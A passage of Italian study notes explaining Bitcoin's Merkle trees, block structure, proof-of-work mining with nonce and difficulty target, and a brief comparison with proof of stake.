Le transazioni vengono poste come foglie (leaves) di questo tree. I nodi itermedi contengono l’hash degli hash dei due figli / foglie concatenati, così fino alla root (Merkle root). Se viene modificato anche un solo bit, cambia completamente l’hash del nodo root. La merkle root è contenuta nell’header di un blocco, se cambia il suo hash, cambia anche quello del blocco.

### Blocco

Un blocco ha un header e un set ordinato ordinato di transazioni, ognuna con una lunghezza da 250 a 1000 byte.

Perchè il Merkel-root è incluso nell’header, L’hash dell’header permette di identificare univocamente il blocco, fornendo una impronta digitale per tutto l’insieme di transazioni.

Un blocco è creato ogni 10 minuti e contiene da 1000-2500 transazioni.
Ogni blocco punta al predecessore fino ad arrivare al primo blocco il blocco genesis (genesis block)

{width=500px height=130px}

## Minare i blocchi

I miner competono tra di loro per fornire un blocco candidato da aggiungere alla blockchain. Un singolo miner, raccoglie le transazioni in una memory-pool, ne sceglie un sottoinsieme per creare un blocco, calcolare il merkel root.

**Bitcoin consensus:**

Per finalizzare un blocco, richiede delle fee alte (Proof of Work): prima di proporre un blocco, un miner deve risolvere una sfida che richiede l’uso intensivo del processore. (nelll’header cè un numero (contatore) (**NONCE)** e incrementarlo, finchè l’hash del block è inferiore ad un certo numero chiamato target e scelto dalla rete bitcoin)  

Il PoW è un meccanismo di consenso che rende costosa la creazione dei blocchi e permette alla rete di scegliere in modo distribuito e sicuro chi aggiunge il prossimo blocco. Scrivere un blocco richiede energia e non è gratis. La modifica del passato è costosca, perchè richiede rifare il PoW di quel blocco e di tutti i successivi (computazionalmente impossibile)

Se il blocco viene accettato, il miner ottiene il block reward. Per far sì che tutto la rete funzioni è richiesto che > 50% dei miner sono onesti. 

Un miner propone un blocco e la rete deve verificarlo. Dato che ogni miner sceglie in modo diverso le transazioni da inserire in un blocco, quindi il numero NONCE sarà diverso per ognuno. Quando un miner riceve dai peer un blocco valido, rimuove dalla sua memory-pool le transazioni che sono contenute in quel blocco portando anche ad eliminare i blocchi su cui stava lavorando (se contengono delle transazioni da scartare). Ogni miner sceglie dalla memorypool le transazioni da inserire in un pool in base ad un algoritmo che seleziona quelli con priorità maggiore, che può anche basarsi sulla quantità di fee. Il target per calcolare il nonce è scelto dalla rete in modo dinamico, in modo da generare in media un blocco ogni 10 minuti, la difficoltà (target) è scelto ogni 2016 blocchi (14 giorni). 

SHA256(SHA256(header)) < target questo è il calcolo richiesto per POW. Un blocco è detto confermato dopo che ne sono stati creati altri 6.

BTC è molto inefficente sotto il punto di vista energetico e della produttività. Altre BlockChain utilizzano un meccanismo alternativo a PoW, chiamato PoS consiste che il validator, blocca (stake) delle monete, la rete sceglie un validator in proporzione a chi ha più stake, per permetterli di pubblicare un blocco, il concetto è che chi ha bloccato/possiede tanta valuta, non ha interesse a sabotare la rete perchè avrebbe una perdita economica.